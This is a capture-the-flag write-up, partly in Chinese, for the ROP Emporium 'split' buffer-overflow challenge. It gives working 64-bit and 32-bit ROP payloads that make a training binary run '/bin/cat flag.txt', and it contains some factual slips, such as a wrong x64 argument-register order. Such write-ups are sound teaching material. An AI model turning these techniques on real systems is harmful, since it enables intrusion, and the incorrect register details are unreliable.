via：https://ropemporium.com/challenge/split.html

# split

In this challenge the elements that allowed you to complete the ret2win challenge are still present, they've just been split apart. Find them and recombine them using a short ROP chain.
Click below to download the binary.

[64bit](https://ropemporium.com/binary/split.zip) [32bit](https://ropemporium.com/binary/split32.zip)

## Still here

I'll let you in on a secret; that useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.

### I'm not lying

Before we begin let's check the permissions on our target binary. We're employing ROP due to the presence of NX, but we'd feel pretty stupid if it turned out that none of these binaries were compiled with NX enabled. We'll check that this isn't the case and we can't just JMP ESP with a little shellcode. rabin2 -I split lets us know that NX is indeed enabled:




### Treasure hunting

Don't just take my word for it, let's check the call to system() and that useful string are actually here. Afterall if I hadn't mentioned that they were still there how would you know where to start? Go ahead and use rabin2 or any of the tools mentioned in the [beginner's guide](https://ropemporium.com/guide.html) to locate useful strings and note their location. Now ensure that system() is imported, rabin2 or readelf are here to help.

### All together now

Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the "/bin/cat flag.txt" string as the only argument. You'll also have to start dealing with the differences between 32 & 64bit calling conventions.

### Finish the job

Once you've planned your chain, craft a suitable solution. We're still trying to read the contents of the flag.txt file on the imaginary remote machine. You can do the 32bit challenge with just a 2 link chain and the 64bit challenge with a 3 link chain.


### x64

`pwnme` 函数



```asm
004007ec 48 8b 15        MOV        RDX,qword ptr [stdin]
         9d 08 20 00
004007f3 48 8d 45 e0     LEA        RAX=>local_28,[RBP + -0x20]
004007f7 be 60 00        MOV        ESI,0x60
         00 00
004007fc 48 89 c7        MOV        RDI,RAX
004007ff e8 1c fe        CALL       fgets                                            
```

可以看到往 `[RBP + -0x20]` 可以写入 `0x60` Bytes

溢出

填充长度：`0x20 + 0x8 = 0x28`

但是现在我们没有像 ret2win 中直接有一个函数能执行 `system("/bin/cat flag.txt")` 了



但是发现有 `system` 函数

看了一下 `usefulFunction` 函数



它只是调用了 `system("/bin/ls")`

把返回地址覆盖成它的 `plt` 也没有用啊

这里就涉及到 ROP 了

我们要自己构造一个 `system("/bin/sh")` 去拿一个可以交互的 `shell` 或者  `system("/bin/cat flag")`  拿到 `flag`

怎么能做到呢？其实学过 `x64` 函数调用约定的都知道

调用一个函数前要把参数放入指定的寄存器

`x64` ：前六个参数要依次放入 `rdi` `rsi` `rcx` `rdx` `r8` `r9`

可以看看 `fget` 的调用过程

`fgets(local_28,0x60,stdin);`

```asm
004007ec 48 8b 15        MOV        RDX,qword ptr [stdin]
         9d 08 20 00
004007f3 48 8d 45 e0     LEA        RAX=>local_28,[RBP + -0x20]
004007f7 be 60 00        MOV        ESI,0x60
         00 00
004007fc 48 89 c7        MOV        RDI,RAX
004007ff e8 1c fe        CALL       fgets   
```

第一个参数是 `local_28` （[RBP + -0x20]）最终被放进了 `rdi`

第二个参数是  `0x60` 放进了 esi，其实 `esi` 就是 `rsi` 的低 `16` 位

................

好了，我们现在知道了函数的调用了，现在我们构造调用 `system("/bin/cat flag");` 或者  `system("/bin/sh");` 

我们需要一些叫 gadget 的东西

我用的是 `ROPgadget` 来获取 

Via:https://www.jianshu.com/p/1d7f0c56a323


找一下关于 `rdi` 的，因为 `system` 只有一个参数，还有就是我们的输入全是存在栈上的，从栈上拿数据需要 `pop` 指令，现在我们需要  `pop rdi; ret` 

`ROPgadget --binary split --only "pop|ret"`

```ams
# root @ 1a8196b93dce in ~/disk/split [17:40:12]
$ ROPgadget --binary split --only "pop|ret"
Gadgets information
============================================================
0x000000000040087c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040087e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400880 : pop r14 ; pop r15 ; ret
0x0000000000400882 : pop r15 ; ret
0x000000000040087b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040087f : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop rbp ; ret
0x0000000000400883 : pop rdi ; ret
0x0000000000400881 : pop rsi ; pop r15 ; ret
0x000000000040087d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005b9 : ret
```

找到了，地址：`0x0000000000400883`

寄存器找到了，我们去那里找字符串 `/bin/cat flag` 或者 `/bin/sh` 呢

一样用 ROPgadget 搜索看一下 

```
# root @ 1a8196b93dce in ~/disk/split [17:42:15]
$ ROPgadget --binary split --string "/bin/sh"
Strings information
============================================================

# root @ 1a8196b93dce in ~/disk/split [17:42:19]
$ ROPgadget --binary split --string "/bin/cat flag"
Strings information
============================================================
0x0000000000601060 : /bin/cat flag
```

发现没有 `/bin/sh` 

但是有 `/bin/cat flag` 位于 `0x0000000000601060`

好了，现在参数有了，到找函数的地址，其实这里的地址并不是真正的函数在内存中的线性地址，我们找的是函数的 `plt` 这个需要了解动态链接机制，我们的程序编译是用的是 动态编译，用的库函数真正的函数代码是位于 `libc` 里面的

 这是我用 `objdump` 看的 system 函数，可以看到并没有 `system` 的代码，只有一个 `jmpq` , `0x601020` 是  system 函数的 `got` 表地址

```asm
00000000004005e0 <system@plt>:
  4005e0:       ff 25 3a 0a 20 00       jmpq   *0x200a3a(%rip)        # 601020 <_GLOBAL_OFFSET_TABLE_+0x20>
  4005e6:       68 01 00 00 00          pushq  $0x1
  4005eb:       e9 d0 ff ff ff          jmpq   4005c0 <_init+0x20>
```

我们的程序只有一个叫 `plt` 的地址，当我们的程序调用这个函数时程序就会通过这个地址跳到 `got` 表去找函数地址，如果函数是第一次被调用（system 的 `got` 表项为空），程序就会去解析函数在内存中真正的线性地址，然后把它填到 `got` 表里面，算了，就不啰嗦了这个不是重点，我们现在还没涉及 泄露 `libc` 基地址,就不详细讲了

现在用 `objdump` 看一下 `system`  函数的 `plt`

`objdump -d split | less`

然后输入 /system



system plt: `0x00000000004005e0`

写 payload:

```python
from pwn import *

system_plt = 0x00000000004005e0
pop_rdx_ret = 0x0000000000400883
cat_flag = 0x0000000000601060

exp = "A" * 0x28
exp += p64(pop_rdx_ret)
exp += p64(cat_flag)
exp += p64(system_plt)

print(exp)
```

`python exp.py | ./split`



pwn!


### x86



一样的漏洞，废话不多说

`fgets `造成缓冲区溢出

```asm
        0804862f a1 80 a0        MOV        EAX,[stdin]
                 04 08
        08048634 83 ec 04        SUB        ESP,0x4
        08048637 50              PUSH       EAX
        08048638 6a 60           PUSH       0x60
        0804863a 8d 45 d8        LEA        EAX=>local_2c,[EBP + -0x28]
        0804863d 50              PUSH       EAX
        0804863e e8 cd fd        CALL       fgets                                            
```

填充长度：`0x28 + 0x4 =0x2c `

`x86` ：函数调用是要把函数先压栈，然后 `call` ，参数压栈顺序是 最后一个先压栈

比如上面的 `fgets(local_2c,0x60,stdin);` 先压 `stdin` 再压 `0x60` 然后压 `local_2c`

~~在 `x86` 下 `ROP` 是要找一些 `pop reg ret; push reg ret` gadget~~

~~直接用 `ROPgadget`~~ 

现在是凌晨 3 点，我可能熬夜熬傻逼了，`x86` 下用个屁的`gadget` 输入的东西全放在栈上了，我还 `pop` `push` 个鬼

直接找字符串

 发现有： `/bin/cat flag`，地址：`0x0804a030`




`objdump -d split32 | less`



然后就是获得 `System` 的 `plt`，地址：`0x08048430`

(其实可以用 pwntools ELF的函数直接获得的，还是算了，手动吧)

x86 的 rop 是：

```
调用的函数
返回地址
参数
```

所以

paload:

```python
from pwn import *

system_plt = 0x08048430
cat_flag = 0x0804a030

exp = "A" * 0x2c
exp += p32(system_plt)
exp += 'AAAA'
exp += p32(cat_flag)

print(exp)
```



运行 `sudo dmesg -c `看到了吗



pwn！


最后一条

```
[30242.626114] split32[4359]: segfault at 41414141 ip 0000000041414141 sp 00000000ffdcc904 error 14
```

执行完 `system("/bin/cat flag");` 程序跳到了 `0x41414141` 去执行

证明了函数调用的栈布局

我们的 payload 中

```python
exp = "A" * 0x2c
exp += p32(system_plt) #system
exp += 'AAAA' #返回地址
exp += p32(cat_flag) #参数
```

